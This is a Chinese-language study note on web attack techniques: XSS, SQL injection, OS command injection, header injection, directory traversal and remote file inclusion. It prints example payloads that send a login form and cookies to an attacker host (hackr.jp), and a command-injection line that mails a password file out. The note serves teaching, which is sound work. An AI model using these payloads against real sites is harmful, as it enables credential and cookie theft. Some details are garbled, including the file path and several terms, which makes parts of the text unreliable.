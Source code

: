 互联网上的攻击大都将web站点作为目标

#### 针对web的攻击技术 ####

##### 11.1.1 http 不具备必要的安全功能 #####

ssh 协议，具备协议级别的认证及会话管理功能。 

##### 11.1.2 在客户端即可篡改请求 #####

通过URL查询字段或表单、http首部，cookie等途径吧攻击代码传入，若这是web应用存在安全漏洞，那内部信息就会遭到窃取，或被攻击者拿到管理权限。

##### 11.1.3 针对web应用的攻击模式 #####

* 主动攻击
* 被动攻击


* 以服务器为目标的主动攻击
直接访问web应用，把攻击代码传入攻击模式。 SQL注入攻击和OS命令注入攻击

* 以服务器为目标的被动攻击
利用拳套策略执行攻击代码的攻击模式。 跨站脚本攻击和跨站点请求伪造

#### 11.2 因输出值转义不完全引发的安全漏洞 ####

实施web应用的安全对策可大致分为以下两部分。
* 客户端的验证
* web应用端的验证
 * 输入值验证
 * 输出值转义
 
客户端验证只是为了尽早的辨识输入错误，起到提高UI体验的作用。

##### 11.2.1 跨站脚本攻击 #####

动态html
Xss
```
http://example.jp/login?ID="><script>var+f=document.getElementById("login");+f.action="http://hackr.jp/pwget";+f.method="get";</script><span+s="
```

对cookie的窃取攻击

```
var content = escape(document.cookie);
document.write("<img src=http://hackr.jp/?");
document.write(content);
document.write('>') ;

```
##### 11.2.2 SQL注入攻击 #####

* 会执行非法SQL的SQL注入攻击
    影响
 *  非法查看或篡改数据库内的数据
 *  规避认证
 *  执行和数据库服务器业务关联的程序等

##### 11.2.3 OS命令注入攻击 #####

执行shell的地方

```
| /usr/sbin/sendmail; cat /ext/password | mail hack@example.jp
```

##### 11.2.4 http首部注入攻击 #####

攻击者通过在响应首部字段内插入换行，添加任意响应首部或主题的一种方式。属于被动攻击模式。

* Location
* Set-Cookie

##### 11.2.5 邮件首部注入攻击 #####

##### 11.2.6 目录遍历攻击 #####

关闭指定对任意文件名的访问权限

##### 11.2.7 远程文件包含漏洞 #####

php include 或  require ,指定外部服务器的URL作为文件名

#### 11.3 因设置或设计上的缺陷引发的安全漏洞 ####

对那些不愿公开的文件，为了保证安全会隐蔽其URL。可一旦知道了那些URL，也就意味着可浏览URL对应的文件。直接显示容易推测到文件名或目录索引时，

不正确的错误信息处理

开放重定向







